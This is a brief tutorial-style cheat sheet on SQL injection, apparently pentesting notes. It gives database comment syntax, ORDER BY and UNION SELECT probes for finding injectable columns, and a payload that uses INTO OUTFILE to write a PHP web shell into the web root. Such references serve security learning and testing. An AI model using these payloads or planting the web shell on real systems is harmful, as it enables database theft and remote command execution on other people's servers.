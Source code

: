 ```yaml
---
description: >-
  SQL injection (SQLi) is a web security vulnerability that allows an attacker
  to interfere with the queries that an application makes to its database.
---
```


# SQL Injection

## SQL Injection basics

### Comments

```
Oracle
--comment

MSSQL
--comment
/*comment*/

PostgreSQL
--comment
/*comment*/

MySQL
#comment
-- comment [Note the space after the double dash]
/*comment*/
```

### Detecting Columns using `ORDER BY`

Finding how many columns in the query by using `order by`

```python
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
# and so on. Until you've found an error
```

### Inject in columns using `UNION SELECT`

Let says you've found 5 columns in the query. Now, it's time to check which columns are vulnerable/injectable.

```python
' UNION SELECT 'a',NULL,NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL,NULL--
# keep replacing 'a'. Until you've found an error.' UNION ALL SELECT 1-- -
```

### Inject in columns using `UNION ALL SELECT`

```python
' UNION ALL SELECT 1-- - 
' UNION ALL SELECT 1,2-- -
' UNION ALL SELECT 1,2,3-- -
# keep going until you've found one of the numbers in the output.
```

### Web-Shell/Backdoor

{% code title="PHP web-shell" %}
```php
' UNION ALL SELECT '<?php system($_REQUEST["cmd"]);?>' INTO OUTFILE '/var/www/html/cmd.php'-- -
```
{% endcode %}

## References

* [https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)
* [https://github.com/payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)
* [https://kayran.io/blog/web-vulnerabilities/sqli-to-rce/](https://kayran.io/blog/web-vulnerabilities/sqli-to-rce/)
